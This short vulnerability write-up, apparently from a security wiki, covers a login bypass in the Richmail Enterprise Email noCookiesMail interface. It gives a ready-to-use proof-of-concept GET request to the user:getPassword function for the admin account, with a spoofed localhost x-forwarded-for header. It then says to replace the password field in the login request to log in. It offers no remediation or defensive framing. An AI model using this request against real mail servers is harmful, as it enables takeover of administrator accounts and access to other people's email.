 # Richmail Enterprise Email noCookiesMail Login bypass vulnerability

## Vulnerability Description

Richmail Enterprise Email NoCookiesMail interface has a login bypass vulnerability. The attacker can obtain the administrator account and password to log in to the background through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Richmail Corporate Email</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1698647772423-398a9b02-899e-4fd0-ba4c-e93427ffcaea-20231108125736212.png)

Verify POC

```php
GET /RmWeb/noCookiesMail?func=user:getPassword&userMailName=admin HTTP/1.1 
Host:
Cache-Control: max-age=0 
Content-Type: Application/X-www-Form
x-forwarded-for: 127.0.0.1
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1698647827407-ee5bc4fd-6790-428a-b56c-9287be10fce7.png)

Replace password field in login request to log in